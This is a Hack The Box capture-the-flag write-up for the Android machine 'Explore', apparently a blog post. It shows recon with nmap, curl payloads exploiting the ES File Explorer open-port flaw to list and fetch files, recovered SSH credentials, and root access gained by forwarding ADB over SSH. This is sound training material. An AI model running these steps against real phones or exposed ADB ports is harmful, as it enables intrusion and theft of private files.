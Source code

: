 +++
date = '2021-10-30'
title = 'HTB Machine Explore'
author = "Javier Olmedo"
toc = false
+++

[![Hack The Box - Machine - Explore](/images/htb-machine-explore/htb-machine-explore_banner.png)](/images/htb-machine-explore/htb-machine-explore_banner.png)


Welcome to the writeup of the **explore machine** of the Hack The Box platform. Explore is an **easy** difficulty machine on android.

# Before starting
Connect to **Hack The Box VPN** in background with `TMUX`
```bash
tmux new -s htb
sudo openvpn ~/.vpn/htb.ovpn
```

**Add** machine to `/etc/hosts` file, **check connection** with `ping` and **create work folders**
```bash
echo '10.10.10.247 explore.htb' >> /etc/hosts
ping -c 4 explore.htb
mkdir -p ~/htb/explorer.htb/{exploits,fuzz,http,nmap}
```

# Recon
Check **all open ports**, detect the service and its version with `nmap`
```bash
nmap -sC -sV -p- -T4 --min-rate=1000 -v -oA all explore.htb
```
```nmap
Nmap scan report for explore.htb (10.10.10.247)
Host is up (0.048s latency).
Not shown: 65530 closed tcp ports (reset)
PORT      STATE    SERVICE VERSION
2222/tcp  open     ssh     (protocol 2.0)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-SSH Server - Banana Studio
| ssh-hostkey: 
|_  2048 71:90:e3:a7:c9:5d:83:66:34:88:3d:eb:b4:c7:88:fb (RSA)
5555/tcp  filtered freeciv
42135/tcp open     http    ES File Explorer Name Response httpd
|_http-title: Site doesn't have a title (text/html).
44347/tcp open     unknown
| fingerprint-strings: 
|   GenericLines: 
|     HTTP/1.0 400 Bad Request
|     Date: Sat, 30 Oct 2021 11:00:48 GMT
|     Content-Length: 22
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line:
|   GetRequest: 
|     HTTP/1.1 412 Precondition Failed
|     Date: Sat, 30 Oct 2021 11:00:48 GMT
|     Content-Length: 0
|   HTTPOptions: 
|     HTTP/1.0 501 Not Implemented
|     Date: Sat, 30 Oct 2021 11:00:53 GMT
|     Content-Length: 29
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Method not supported: OPTIONS
|   Help: 
|     HTTP/1.0 400 Bad Request
|     Date: Sat, 30 Oct 2021 11:01:08 GMT
|     Content-Length: 26
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line: HELP
|   RTSPRequest: 
|     HTTP/1.0 400 Bad Request
|     Date: Sat, 30 Oct 2021 11:00:53 GMT
|     Content-Length: 39
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     valid protocol version: RTSP/1.0
|   SSLSessionReq: 
|     HTTP/1.0 400 Bad Request
|     Date: Sat, 30 Oct 2021 11:01:08 GMT
|     Content-Length: 73
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line: 
|     ?G???,???`~?
|     ??{????w????<=?o?
|   TLSSessionReq: 
|     HTTP/1.0 400 Bad Request
|     Date: Sat, 30 Oct 2021 11:01:08 GMT
|     Content-Length: 71
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line: 
|     ??random1random2random3random4
|   TerminalServerCookie: 
|     HTTP/1.0 400 Bad Request
|     Date: Sat, 30 Oct 2021 11:01:08 GMT
|     Content-Length: 54
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line: 
|_    Cookie: mstshash=nmap
59777/tcp open     http    Bukkit JSONAPI httpd for Minecraft game server 3.6.0 or older
|_http-title: Site doesn't have a title (text/plain).
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port2222-TCP:V=7.92%I=7%D=10/30%Time=617D2253%P=x86_64-pc-linux-gnu%r(N
SF:ULL,24,"SSH-2\.0-SSH\x20Server\x20-\x20Banana\x20Studio\r\n");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port44347-TCP:V=7.92%I=7%D=10/30%Time=617D2252%P=x86_64-pc-linux-gnu%r(
SF:GenericLines,AA,"HTTP/1\.0\x20400\x20Bad\x20Request\r\nDate:\x20Sat,\x2
SF:030\x20Oct\x202021\x2011:00:48\x20GMT\r\nContent-Length:\x2022\r\nConte
SF:nt-Type:\x20text/plain;\x20charset=US-ASCII\r\nConnection:\x20Close\r\n
SF:\r\nInvalid\x20request\x20line:\x20")%r(GetRequest,5C,"HTTP/1\.1\x20412
SF:\x20Precondition\x20Failed\r\nDate:\x20Sat,\x2030\x20Oct\x202021\x2011:
SF:00:48\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(HTTPOptions,B5,"HTTP/1
SF:\.0\x20501\x20Not\x20Implemented\r\nDate:\x20Sat,\x2030\x20Oct\x202021\
SF:x2011:00:53\x20GMT\r\nContent-Length:\x2029\r\nContent-Type:\x20text/pl
SF:ain;\x20charset=US-ASCII\r\nConnection:\x20Close\r\n\r\nMethod\x20not\x
SF:20supported:\x20OPTIONS")%r(RTSPRequest,BB,"HTTP/1\.0\x20400\x20Bad\x20
SF:Request\r\nDate:\x20Sat,\x2030\x20Oct\x202021\x2011:00:53\x20GMT\r\nCon
SF:tent-Length:\x2039\r\nContent-Type:\x20text/plain;\x20charset=US-ASCII\
SF:r\nConnection:\x20Close\r\n\r\nNot\x20a\x20valid\x20protocol\x20version
SF::\x20\x20RTSP/1\.0")%r(Help,AE,"HTTP/1\.0\x20400\x20Bad\x20Request\r\nD
SF:ate:\x20Sat,\x2030\x20Oct\x202021\x2011:01:08\x20GMT\r\nContent-Length:
SF:\x2026\r\nContent-Type:\x20text/plain;\x20charset=US-ASCII\r\nConnectio
SF:n:\x20Close\r\n\r\nInvalid\x20request\x20line:\x20HELP")%r(SSLSessionRe
SF:q,DD,"HTTP/1\.0\x20400\x20Bad\x20Request\r\nDate:\x20Sat,\x2030\x20Oct\
SF:x202021\x2011:01:08\x20GMT\r\nContent-Length:\x2073\r\nContent-Type:\x2
SF:0text/plain;\x20charset=US-ASCII\r\nConnection:\x20Close\r\n\r\nInvalid
SF:\x20request\x20line:\x20\x16\x03\0\0S\x01\0\0O\x03\0\?G\?\?\?,\?\?\?`~\
SF:?\0\?\?{\?\?\?\?w\?\?\?\?<=\?o\?\x10n\0\0\(\0\x16\0\x13\0")%r(TerminalS
SF:erverCookie,CA,"HTTP/1\.0\x20400\x20Bad\x20Request\r\nDate:\x20Sat,\x20
SF:30\x20Oct\x202021\x2011:01:08\x20GMT\r\nContent-Length:\x2054\r\nConten
SF:t-Type:\x20text/plain;\x20charset=US-ASCII\r\nConnection:\x20Close\r\n\
SF:r\nInvalid\x20request\x20line:\x20\x03\0\0\*%\?\0\0\0\0\0Cookie:\x20mst
SF:shash=nmap")%r(TLSSessionReq,DB,"HTTP/1\.0\x20400\x20Bad\x20Request\r\n
SF:Date:\x20Sat,\x2030\x20Oct\x202021\x2011:01:08\x20GMT\r\nContent-Length
SF::\x2071\r\nContent-Type:\x20text/plain;\x20charset=US-ASCII\r\nConnecti
SF:on:\x20Close\r\n\r\nInvalid\x20request\x20line:\x20\x16\x03\0\0i\x01\0\
SF:0e\x03\x03U\x1c\?\?random1random2random3random4\0\0\x0c\0/\0");
Service Info: Device: phone
```

[![](/images/htb-machine-explore/htb-machine-explore_nmap.png)](/images/htb-machine-explore/htb-machine-explore_nmap.png)

Open firefox to inspect website
```bash
firefox http://explore.htb:59777 &
```

[![](/images/htb-machine-explore/htb-machine-explore_001.png)](/images/htb-machine-explore/htb-machine-explore_001.png)

Nothing interesting 😥, let's look for information....

On port **42135** is running **ES File Explorer**, a public vulnerability that I was already testing the PoC of [fs0c131y's Github](https://github.com/fs0c131y/ESFileExplorerOpenPortVuln), I could see that [JSONAPI](https://github.com/alecgorge/jsonapi) is a Bukkit add-on, which allows to consume an API, maybe they can be related.

By reading the README.md from the repository, you can generate a payload to test the vulnerability.

```bash
curl --header "Content-Type: application/json" --request POST --data '{"command":"getDeviceInfo"}' http://explore.htb:59777
```

[![](/images/htb-machine-explore/htb-machine-explore_002.png)](/images/htb-machine-explore/htb-machine-explore_002.png)

[![](/images/others/anthony_adams_rubbing_hands.jpg)](/images/others/anthony_adams_rubbing_hands.jpg)

After searching for interesting files, I found an image with the credentials of the user `kriti` located in the `/storage/emulated/0/DCIM/creds.jpg` folder.
```bash
curl --header "Content-Type: application/json" --request POST --data '{"command":"listPics"}' http://explore.htb:59777
```

[![](/images/htb-machine-explore/htb-machine-explore_003.png)](/images/htb-machine-explore/htb-machine-explore_003.png)

To get `creds.jpg` use this command:
```txt
python exploit_ESFileExplorer.py --get-file /storage/emulated/0/DCIM/creds.jpg --host explore.htb
```

[![](/images/htb-machine-explore/htb-machine-explore_004.png)](/images/htb-machine-explore/htb-machine-explore_004.png)

[![](/images/htb-machine-explore/htb-machine-explore_005.png)](/images/htb-machine-explore/htb-machine-explore_005.png)

Credentials
```txt
kristi:Kr1sT!5h@Rp3xPl0r3!
```

# Gain Access
SSH service is running on port `2222`, connect with the credentials and show `user.txt` flag
```bash
ssh -p 2222 kristi@explore.htb
cat /sdcard/user.txt
```

[![](/images/htb-machine-explore/htb-machine-explore_user.png)](/images/htb-machine-explore/htb-machine-explore_user.png)

# Privilege Escalation
Checking the network connections, we observe that port `5555` is listening, this port is used by default by `ADB` (Android Debug Bridge).
```bash
netstat -nlpt
```

[![](/images/htb-machine-explore/htb-machine-explore_006.png)](/images/htb-machine-explore/htb-machine-explore_006.png)

So lets try to port **forward** it through ssh and try to connect it through our box
```bash
ssh -p 2222 kristi@explore.htb -L 5555:localhost:5555
```

Use `adb` to get root access, find flag and show.
```bash
adb -s localhost:5555 root
```
```bash
adb -s localhost:5555 shell
```
```bash
find / -name "root.txt" 2>/dev/null
```
```bash
cat /data/root.txt
```

[![](/images/htb-machine-explore/htb-machine-explore_root.png)](/images/htb-machine-explore/htb-machine-explore_root.png)

[![](/images/others/boom.gif)](/images/others/boom.gif)
